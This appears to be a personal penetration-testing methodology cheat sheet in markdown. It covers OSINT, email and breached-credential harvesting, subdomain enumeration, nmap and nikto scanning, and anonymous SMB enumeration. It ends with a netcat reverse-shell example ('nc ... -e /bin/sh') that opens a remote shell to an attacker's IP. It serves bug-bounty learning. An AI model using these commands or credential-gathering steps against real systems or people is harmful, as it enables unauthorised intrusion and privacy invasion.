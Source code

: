 # EH Methodology
1. [Reconnaissance](#reconnaissance): Active and Passive
2. [Scanning & Enumeration](#scanning--enumeration): Nmap, Nessus, Nikto
3. [Gaining Access](#gaining-access): Exploitation
4. [Maintaining Access](#maintaining-access)
5. [Covering Tracks](#covering-tracks)

## Reconnaissance
### Passive recon
#### Physical and social
Location information:
- Satellite images
- Drone recon
- Building layout (badge readers, break areas, security, fencing

Job information
- employees (name, job, title, phone, etc.)
- pictures (badge photo, desk photos, computer photos, etc.)

#### Web/Host
- Target Validatidation: WHOIS, nslookup, dnsrecon
- Finding subdomains: Google Fu, dig, Nmap, Sublist3r, Bluto, crt.sh, etc.
- Fingerprinting: Nmap, Wappalyzer, WhatWeb, BuiltWith, Netcat
- Data breaches: HaveIBeenPwned, Breach-Parse, WeLeakInfo

### Identify target
Bug Bounty program: Bugcrowd
Choose a target and **check the scope**.  ! DO NOT TOUCH THE OUT OF SCOPE DOMAINS !

### Discovering Email Addresses
#### Get email addresses
- Tools: hunter.io, phonebook.cz, clearbit connect (Google app)

Get a list of email addresses of a company with name and job. 
NB: Find if there is a pattern. Ex: {X}{YYYY}@company.com with X being the first letter of firstname, and YYYY the first 4 letters of lastname. 

#### Check if addresses are valid 
Tools: tools.verifyemailaddress.io, email-check.net

### Gathering breached credentials 
Tools: breach-parse, DeHashed (not free)
Find any information email, password, hashed password
For hashed password: go to hashes.org 

### Subdomains
Search all interesting subdomains with the keywords dev, sso, vpn, api, admin, etc.
#### Sublist3r 
Works with Search Engine. Only third level searches like level3.level2.com 
```bash
apt install sublist3r
sublist3r -d [domain]
# use with -t THREAD to speed up depending on CPU power
```
#### crt.sh
Works with certificates. Search on any level like levelN.level3.level2.com 
Enter the following to search subdomains : `%.domain.com`
`%` acts as a wildcard.

#### OWASP Amass
Deep search. Install it via https://github.com/OWASP/Amass

#### httpprobe
Once you get the results, narrow the list down with https://github.com/tomnomnom/httprobe
It returns whether the website is up or down.

### Identifying website technologies
Identifying technologies to determine the version and see if there is any existing vulnerability 
#### builtwith.com
Determines what tech is used in a website (framework, libraries, widget, etc.)

#### wappalyzer (browser add-on)
Gives less information than builtwith.com but it gives you the information right away when you visit any page

#### whatweb (Kali built-in tool)
Not as pretty as above tools but might give more information like technology version that couldn't be retrieve from *builtwith.com* or *wappalyzer*

### Burp Suite
Configure proxy first. Go to browser Preferences > Network Proxy > Manual proxy
Then type *127.0.0.1* as HTTP proxy and port *8080*
OR use *foxy-proxy*
This tool can also be used to identify website technology, but all requests as well. It can read all the requests and edit them.
### Google Fu
https://blog.tryhackme.com/google-fu/
### Social Media
Use Social Media to find any information, pictures, videos that might be vulnerable like work pictures showing a badge etc..

## Scanning & Enumeration
### Scanning
#### Nmap
```bash
# Get all opened port
nmap -T4 -p- <IP address>

# Get more info about found ports
nmap -T4 -p port1,port2 -A <IP address>
```
#### Nikto
```bash
# Get vuln information on host
nikto -h [host]
```
> Currently not working with SSL
#### Nessus
Web app with great interface and great features like scheduled scanning but the app is not free
### Enumeration
#### http (80), https (443)
Tools: dirbuster, BurpSuite
#### smb (139, 445)
Tools: Metasploit
Command:
```bash
# Try with anonymous auth if you don't have any password
smbclient -L \\\\{IP address}\\
# If results, do 
smbclient \\\\{IP address}\\{repository name}
```
> if the prompt changes and you have `smb: \>` you're in and you can try any SMB command
#### ssh (22) 
## Exploitation Basics
### Reverse and Bind shell
To perform these attacks, we use the `nc` command (*netcat*). 
Reverse shell is when the target connects to the attacker like this :
```bash
# Attacker's machine
nc -lvp 4444
```
> l for listening, v for verbose, p for port
```
# Victim's machine
nc 192.168.156.1 4444 -e /bin/sh
```
> 192.168.156.1 is attacker's IP address
> e 
## Gaining Access
## Maintaining Access
## Covering Tracks

Read:
Darknet diaries
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTU0MjY2MDk5OCwxODE4MTc2MjE5LC0xMD
k3ODkxODEzLDIwNTQxNzA4NTQsMTUzNDY5MjI1NCwtMzYzMTYy
MDA5LDQ5Mjg5MTM1NCwtMTQ5ODIzMTAxLDE4NjU2MjI4MTAsLT
IwODE0NjMyMTQsLTEwMTgzNjI2NywtNDc0OTkwOTg4LC0xNDcz
MTE1MzYsLTEyNDQxOTcyOTgsNzYyNzgyMTYyLC0xODMxMzM5OD
ksNDYyMDI2Njc1LC0xMTc2OTU3NjkzLC0xMDA3NTEyMjA4LC01
MzM3MjY4NTFdfQ==
-->
